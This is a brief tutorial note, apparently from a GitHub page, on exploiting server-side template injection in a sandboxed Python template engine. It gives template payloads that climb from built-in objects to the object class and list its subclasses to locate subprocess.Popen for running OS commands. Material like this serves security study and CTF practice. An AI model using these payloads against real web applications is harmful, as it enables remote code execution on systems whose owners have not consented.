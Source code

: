 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

```
[]
''
()
dict
config
request
```

# example payload
{{ [].__class__.__base__ }} # <class 'object'>

2. Finding subclasses to abuse

{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>, ... , <class 'subprocess.Popen'>, ... ]

The subprocess.Popen class allows us to run os commands and is of interest.
